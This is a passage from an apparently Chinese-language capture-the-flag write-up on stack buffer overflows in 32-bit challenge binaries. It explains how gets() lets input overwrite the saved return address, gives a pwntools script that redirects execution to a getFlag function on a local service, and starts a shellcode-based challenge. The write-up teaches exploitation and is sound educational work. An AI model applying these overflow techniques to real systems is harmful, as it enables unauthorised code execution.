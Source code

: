 看`foo`函数中, 调用`gets`函数之前的汇编, 我们能得到如下的栈结构:

![pwn03](http://qn.lazysheep.cc/img/pwn03.png)

`gets`函数得到的输入存在`eax`指向的地址, 因为`gets`函数没有限制输入的长度, 如果获取输入的字符串大于0x1c byte, 则会覆盖到`ebp`以下的栈数据, `ret`表示函数执行结束后的返回地址, 如果`foo`函数执行结束, `eip`就会跳向这个地址, 所以我们可以通过把`ret`的值改为`getFlag`函数的地址, 调用`getFlag`函数.

通过gdb进行调试, 可以很容易理解该原理.

当输入`32 * 'a' + 'b' * 4`时:
![pwn04](http://qn.lazysheep.cc/img/pwn04.png)

payload0.py
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-
 
from pwn import *
 
conn = remote('127.0.0.1', 10001)
pwn_elf = ELF('pwn0')
print conn.recvline()
payload = "a" * 0x1c + "a" * 4             # 0x1c长度的buf + 4 byte的ebp
payload += p32(pwn_elf.symbols['getFlag']) # 覆盖ret
conn.sendline(payload)
print conn.recv()
print conn.recv()
```

不过这是下一题的解法, 在`foo`函数中不是还有一个条件语句调用`getFlag`函数么， 只要让该判断成立, 就好了, 上面的理解了, 现在说的这种方法就一目了然了, 用于判断的变量a1， 为函数实参, 在栈中位于ret之下, 所以只要输入`(32 + 4 + 4) * 'a'`覆盖该参数, 则可使判断成立

# 0x2 PWN1

使用上面所说的方法, 控制eip跳转到`getFlag`函数

# 0x3 PWN2

描述: 古老的栈溢出, 用shellcode就好了

同样是使用binwalk, 判断出是32位程序, 丢到ida中

本题主要是`foo`函数:
```
ssize_t foo()
{
  char buf; // [sp+Ch] [bp-1Ch]@1

  printf("0x%x\n", &buf);
  return read(0, &buf, 0x100u);
}
```
